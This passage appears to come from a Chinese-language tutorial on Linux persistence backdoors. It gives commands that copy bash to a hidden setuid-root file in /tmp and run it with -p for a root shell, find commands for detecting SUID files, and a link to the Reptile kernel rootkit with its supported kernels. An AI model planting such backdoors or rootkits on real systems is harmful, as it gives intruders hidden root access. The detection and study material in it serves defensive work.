 ### 0x02 SUID 后门

当一个文件所属主的 x 标志位 s(set uid 简称 suid) 时，且所属主为 root 时，当执行该文件时，其实是以 root 身份执行的。必要条件：

```
1、SUID权限仅对二进制程序有效。 
2、执行者对于该程序需要具有x的可执行权限
3、本权限仅在执行该程序的过程中有效  
4、在执行过程中执行者将具有该程序拥有者的权限


```

创建 suid 权限的文件：

```
$cp /bin/bash /tmp/.woot
$chmod 4755 /tmp/.woot
$ls -al /.woot
-rwsr-xr-x 1 root root 690668 Jul 24 17:14 .woot


```

使用一般用户运行：

```
$/tmp/.woot 
$/tmp/.woot -p    //bash2 针对 suid 有一些护卫的措施，使用-p参数来获取一个root shell


```

检测：查找具有 suid 权限的文件即可

```
find / -perm +4000 -ls
find / -perm -u=s -type f 2>/dev/null


```

### 0x03 LKM Linux rootkit 后门

项目地址:[https://github.com/f0rb1dd3n/Reptile](https://github.com/f0rb1dd3n/Reptile)

适用的系统:

```
Debian 9：4.9.0-8-amd64 
Debian 10：4.19.0-8-amd64 
Ubuntu 18.04.1 LTS：4.15.0-38-generic 
Kali Linux：4.18.0-kali2-amd64 
Centos 6.10：2.6.32- 754.6.3.el6.x86\_64 
Centos 7：3.10.0-862.3.2.el7.x86\_64 
Centos 8：4.18.0-147.5.1.el8\_1.x86\_64


```
